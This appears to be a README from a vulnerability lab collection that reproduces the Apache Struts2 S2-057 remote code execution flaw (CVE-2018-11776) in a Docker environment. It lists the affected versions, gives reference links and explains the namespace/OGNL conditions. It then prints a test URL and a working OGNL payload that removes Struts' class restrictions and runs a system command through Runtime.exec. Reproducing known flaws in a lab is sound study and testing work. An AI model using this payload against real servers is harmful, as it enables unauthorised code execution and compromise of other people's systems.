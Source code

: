 # Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)

Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/showcase/` and you will see the Struts2 test page.

## Expliot

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

Result:

![](2.png)